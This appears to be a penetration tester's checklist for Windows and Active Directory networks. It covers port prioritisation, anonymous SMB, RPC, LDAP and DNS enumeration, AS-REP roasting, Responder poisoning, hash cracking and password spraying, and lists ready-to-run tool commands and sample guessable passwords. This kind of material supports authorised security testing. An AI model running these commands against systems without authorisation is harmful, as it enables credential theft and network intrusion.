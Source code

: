 ### Port & Service Analysis
- [ ] Analyze all open ports against port reference guide
- [ ] Prioritize high-value targets: DCs (88,389), DBs (1433,3306,5432), Web (80,443)
- [ ] Identify service versions for all critical services
- [ ] Check for default/known vulnerable versions
- [ ] Document all findings in target inventory spreadsheet

---

## WINDOWS / ACTIVE DIRECTORY TESTING

### Initial Enumeration (No Credentials)
- [ ] **Domain Controller identification**
  - [ ] Identify via Kerberos (88), LDAP (389), DNS (53)
  - [ ] Record all DC hostnames and IPs

- [ ] **SMB enumeration**
  - [ ] Check SMB signing: `crackmapexec smb TARGET --gen-relay-list`
  - [ ] Null session: `smbclient -L //TARGET -N`
  - [ ] Enum4linux: `enum4linux-ng TARGET -oA output`
  - [ ] SMB shares: `smbmap -H TARGET` or `smbclient -L //TARGET`
  - [ ] List shares: `crackmapexec smb TARGET -u '' -p '' --shares`

- [ ] **RPC enumeration**
  - [ ] RID cycling: `crackmapexec smb TARGET -u '' -p '' --rid-brute`
  - [ ] User enumeration: `rpcclient -U "" TARGET` then `enumdomusers`
  - [ ] Group enumeration: `rpcclient` then `enumdomgroups`

- [ ] **LDAP enumeration**
  - [ ] Anonymous LDAP: `ldapsearch -x -h TARGET -b "dc=domain,dc=local"`
  - [ ] Extract domain info: `ldapdomaindump TARGET -n`

- [ ] **Password policy check**
  - [ ] `netexec smb TARGET -u '' -p '' --pass-pol`
  - [ ] Note lockout threshold (critical for password spraying!)

- [ ] **DNS enumeration**
  - [ ] Zone transfer: `dig axfr @TARGET domain.local`
  - [ ] Enumerate records: `nslookup`, `dig`

### Credential-Based Attacks (No Auth Required)
- [ ] **AS-REP Roasting**
  - [ ] `impacket-GetNPUsers DOMAIN/ -dc-ip DC_IP -no-pass -usersfile users.txt -format hashcat`
  - [ ] Crack hashes: `hashcat -m 18200 hashes.txt rockyou.txt`
  - [ ] Try with common usernames if no user list

- [ ] **LLMNR/NBT-NS Poisoning (Responder)**
  - [ ] `sudo responder -I eth0 -wv`
  - [ ] Let run for 30+ minutes
  - [ ] Check logs: `/usr/share/responder/logs/`
  - [ ] Crack captured hashes: `hashcat -m 5600 hash.txt rockyou.txt`

- [ ] **Password Spraying (CAREFUL!)**
  - [ ] Verify lockout policy first
  - [ ] Try 3-4 passwords maximum
  - [ ] Wait 30+ minutes between attempts
  - [ ] Common passwords: Welcome2024!, Fall2024!, Summer2024!
  - [ ] Tools: `kerbrute passwordspray`, `crackmapexec smb TARGET -u users.txt -p password`
